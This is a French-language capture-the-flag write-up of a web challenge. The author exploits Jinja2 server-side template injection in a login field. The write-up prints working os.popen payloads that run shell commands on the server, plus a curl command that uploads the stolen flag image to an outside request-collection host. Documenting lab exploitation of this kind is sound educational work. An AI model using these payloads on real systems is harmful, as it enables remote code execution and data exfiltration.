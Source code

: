 ```yaml
---
layout: post
title:  "[WIP] Open Flag"
date:   2021-09-29
categories: tamilctf
---
```



# Introduction

Ce challenge fait partie des challenges web.

# Résolution

Lorsque j'ouvre la page pour débuter le challenge, une page de login apparaît.

![1](https://user-images.githubusercontent.com/16634117/135445836-71bcee4f-83c2-4b99-9e5b-8a7346de9a6d.png)

Je tente d'abord un login aléatoire toto/toto afin de voir ce qu'il se passe, je tombe directement sur une nouvelle page m'indiquant la présence du flag dans l'image flag.jpg. 

![2](https://user-images.githubusercontent.com/16634117/135445985-2c9546a9-d679-4bc4-907c-4f0f226c9380.png)

Tout naturellement je tente d'accèder à cette image.

![1-1](https://user-images.githubusercontent.com/16634117/135446040-999b482c-fcb2-4f09-b21e-aed6fe260d04.png)

Evidemment rien...

Je décide donc de jeter un oeil au html de la page précédente.

![3](https://user-images.githubusercontent.com/16634117/135446161-86e363f8-f8a7-418f-89ab-3dd2cb35b762.png)

En commentaire se trouve "Hello" suivi du nom utilisé pour le login. Je tente donc de transformer cela pour pouvoir insérer des balises html en bypassant le commentaire. 

![4](https://user-images.githubusercontent.com/16634117/135446343-6e6e8694-8b95-4c6b-a527-e0db4e475b1f.png)

Et le résultat :

![5](https://user-images.githubusercontent.com/16634117/135446394-f641c8f6-06a9-45cd-b23b-7f35939daab6.png)

Je peux donc injecter du code dans la page... Mais aucune notion d'admin qui doit passer pour vérifier quoi que ce soit, j'écarte donc rapidement la possibilité d'un vol de session.

Je jète un petit coup d'oeil aux requetes et je vois un indice intéressant, le serveur est en python.

![6](https://user-images.githubusercontent.com/16634117/135446526-9d564211-ff3d-4673-b42b-97ddca26be8d.png)

Je me suis souvenu d'un challenge root-me visant à injecter des templates pour executer du code, je me dis que cette piste est intéressante.

Pour vérifier mon hypothèse il me suffit d'injecter un template tout simple comme `{{7 * 7}}` ; si le serveur effectue la multiplication, alors la faille est exploitable.

![7](https://user-images.githubusercontent.com/16634117/135446757-0a62b6c5-39e7-48fc-8411-70cfe397e1a9.png)

![8](https://user-images.githubusercontent.com/16634117/135446779-5f18bf36-d53b-462b-be69-efdd52dfc581.png)

Le code est exécuté ! 

A partir de la, un petit détour sur le [repo github payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) va me donner une liste d'injections qui me permettra d'arriver à mes fins.

je tente d'abord de trouver l'uid côté serveur, la charge est la suivante :

`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`

Et la réponse :

![9](https://user-images.githubusercontent.com/16634117/135447259-653f1ee8-ce80-4d18-af7a-2056153b9f01.png)

Interessant... Voyonsvoir si je peux lister les fichiers à la racine du serveur web :

`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`

Et la réponse :

![10](https://user-images.githubusercontent.com/16634117/135447364-34f4895c-3e2b-4d8f-ac02-f1e9a1c9ef17.png)

J'essaye donc de récuperer l'image en base 64 

`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('base64 flag.jpg').read() }}`

La réponse est vide... Il y a effectivement un fichier "flag.jpg" mais les droits m'empechent d'y accéder.

Je copie donc l'image dans le répertoire `/tmp` pour travailler proprement.

`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cp flag.jpg /tmp/flag.jpg').read() }}`

Je fais maintenant un endpoint de récupération de requêtes grâce au site [requestbin](https://requestbin.com/?gclid=EAIaIQobChMIw426kM2m8wIVWMvICh31gwmLEAAYASAAEgIPHfD_BwE)

Et je tente d'envoyer une requête depuis le serveur, afin de vérifier que je peux sortir en http :

`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl https://en0siis5jevxc.x.pipedream.net').read() }}`

La réponse sur le site :

![12](https://user-images.githubusercontent.com/16634117/135448042-d73f89f5-a574-4d81-b3a9-27afb02097c1.png)

Et sur mon endpoint :

![13](https://user-images.githubusercontent.com/16634117/135448075-7e8221cf-0818-417f-b38b-f0048a70b010.png)

J'ai donc tous les élements pour terminer le challenge :

`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl -F  "image=@/tmp/flag.jpg" https://en0siis5jevxc.x.pipedream.net').read() }}`

Qui me donne :

![14](https://user-images.githubusercontent.com/16634117/135448201-56f99f3f-77c5-407f-8023-d8787beb47a6.png)

je récupère cette donnée brute et la retransorme en image :

![file](https://user-images.githubusercontent.com/16634117/135448266-7c4f2636-15cf-4c61-8cd1-b801bca70199.png)

Bingo !





